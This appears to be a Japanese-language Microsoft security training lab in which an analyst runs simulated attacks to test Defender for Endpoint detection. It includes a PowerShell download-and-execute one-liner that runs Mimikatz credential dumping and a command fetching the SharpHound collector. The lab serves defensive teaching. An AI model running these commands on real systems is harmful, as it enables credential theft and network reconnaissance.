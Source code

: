 # モジュール 2 - ラボ 1 - 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減

## ラボ シナリオ

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2.png)

あなたは Microsoft Defender for Endpoint を実装している企業で働くセキュリティ オペレーション アナリストです。あなたの上司は、いくつかのデバイスをオンボードして、セキュリティ オペレーション (SecOps) チームの応答手順で必要な変更に関する情報を提供しようとしています。

Defender for Endpoint の攻撃緩和機能を確認するため、シミュレーション攻撃を 2 回行います。

>**ノート:** **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** このラボを自分のペースで確認できます。ホスト型のラボと多少の違いはありますが、主要な概念とアイデアは同じです。

### タスク 1: 攻撃シミレーション

このタスクでは、**WIN1** で **PowerShell** を使用して 2 つの **シミュレートされた** 攻撃を実行し、Microsoft Defender for Endpointの機能を調べます。
 
「攻撃 1: Mimikatz - 資格情報のダンプ」
 
1. *WIN1* マシンで、検索バーに **Command** と入力し、右クリックして **[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして、**管理者:コマンドプロンプト**ウィンドウに貼り付け、**Enter**を押して実行します。
 
    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```
 
1. *アクセスが拒否されました*というメッセージと、「Microsoft Defender ウイルス対策、Windows セキュリティ ウイルス、および脅威の防止」から *脅威が見つかりました*というポップアップ メッセージが表示されます。
 
1. **管理者:コマンドプロンプト**ウィンドウを終了するには、**exit** と入力して **Enter**を押します。
 
「攻撃 2:ブラッドハウンド - コレクション」
 
1. *WIN1* マシンで、検索バーに **PowerShell** と入力し、右クリックして**[管理者として実行]** を選択します。
 
1. 次のコマンドをコピーして **管理者: Windows PowerShell** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
    >**Note:** コマンドを 1 つずつコピー、貼り付け、実行することをお勧めします。*メモ帳*を開き、コマンドを一時ファイルにコピーして、これを実行できます。最初のコマンドは、*Atom Red Team* フォルダーがあるのと同じフォルダーに *ExternalPayloads* という名前のフォルダーを作成します。2 番目のコマンドは、*BloodHound* GitHub リポジトリから *SharpHound.ps1* ファイルをダウンロードし、*ExternalPayloads* フォルダーに保存します。
 
1. 「Windowsセキュリティウイルスと脅威の保護」から「脅威が見つかりました」というポップアップメッセージが表示されます。
 
1. 次のコマンドをコピーして **[管理者: Windows PowerShell]** ウィンドウに貼り付け、**Enter** を押して実行します。
 
    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```
 
1. 出力が *True* の場合、マルウェア ペイロード ファイルはMicrosoft Defender ウイルス対策によって削除されていません。出力が *False* の場合、マルウェア ペイロード ファイルはMicrosoft Defenderウイルス対策によって削除されています。上矢印キーを使用して、出力が *False* になるまでコマンドを繰り返します。

1. Microsoft Defender XDRポータルを開き、インシデントメニューにインシデントが生成されることを確認します。

1. インシデント名に表示されているアラートをクリックし、アラート、デバイス、ユーザー、調査、証拠と対応、グラフ タブの内容を確認します。

## これでラボは完了です。
